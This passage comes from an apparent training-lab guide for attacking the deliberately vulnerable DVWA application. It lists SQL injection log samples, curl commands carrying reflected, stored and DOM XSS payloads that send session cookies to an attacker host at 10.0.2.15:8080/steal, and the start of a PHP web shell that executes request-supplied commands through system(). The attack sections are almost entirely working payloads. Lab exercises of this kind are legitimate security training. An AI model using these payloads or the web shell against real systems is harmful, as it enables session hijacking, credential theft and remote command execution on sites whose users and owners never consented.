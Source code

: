 #### Expected Logs Generated
```bash
# Apache access logs with SQL injection attempts
10.0.2.15 - - [06/Dec/2023:12:15:30 +0000] "GET /dvwa/vulnerabilities/sqli/?id=1%27%20OR%20%271%27=%271&Submit=Submit HTTP/1.1" 200 2345 "-" "curl/7.68.0"
10.0.2.15 - - [06/Dec/2023:12:15:31 +0000] "GET /dvwa/vulnerabilities/sqli/?id=1%27%20UNION%20SELECT%201,2,3,4,5--&Submit=Submit HTTP/1.1" 200 2678 "-" "sqlmap/1.6.12"

# PHP error logs (if enabled)
[06-Dec-2023 12:15:30 UTC] PHP Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /var/www/html/dvwa/vulnerabilities/sqli/source/low.php on line 15
```

### Phase 3: Cross-Site Scripting (XSS) Attacks (45 minutes)

#### Reflected XSS
```bash
# Basic XSS payload
curl "http://10.0.2.101/dvwa/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>" \
  -H "Cookie: PHPSESSID=abc123; security=low"

# Advanced XSS payload
curl "http://10.0.2.101/dvwa/vulnerabilities/xss_r/?name=<img src=x onerror=fetch('http://10.0.2.15:8080/steal?cookie='+document.cookie)>" \
  -H "Cookie: PHPSESSID=abc123; security=low"

# XSS with JavaScript execution
curl "http://10.0.2.101/dvwa/vulnerabilities/xss_r/?name=<script>document.location='http://10.0.2.15:8080/steal?cookie='+document.cookie</script>" \
  -H "Cookie: PHPSESSID=abc123; security=low"
```

#### Stored XSS
```bash
# Store malicious script in database
curl -X POST "http://10.0.2.101/dvwa/vulnerabilities/xss_s/" \
  -H "Cookie: PHPSESSID=abc123; security=low" \
  -d "txtName=<script>fetch('http://10.0.2.15:8080/steal?cookie='+document.cookie)</script>&mtxMessage=Test&btnSign=Sign+Guestbook"
```

#### DOM-based XSS
```bash
# DOM XSS exploitation
curl "http://10.0.2.101/dvwa/vulnerabilities/xss_d/?default=<script>alert('DOM XSS')</script>" \
  -H "Cookie: PHPSESSID=abc123; security=low"
```

### Phase 4: File Upload Attacks (30 minutes)

#### Malicious File Upload
```bash
# Create PHP web shell
cat > /tmp/shell.php << 'EOF'
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
<form method="GET">
```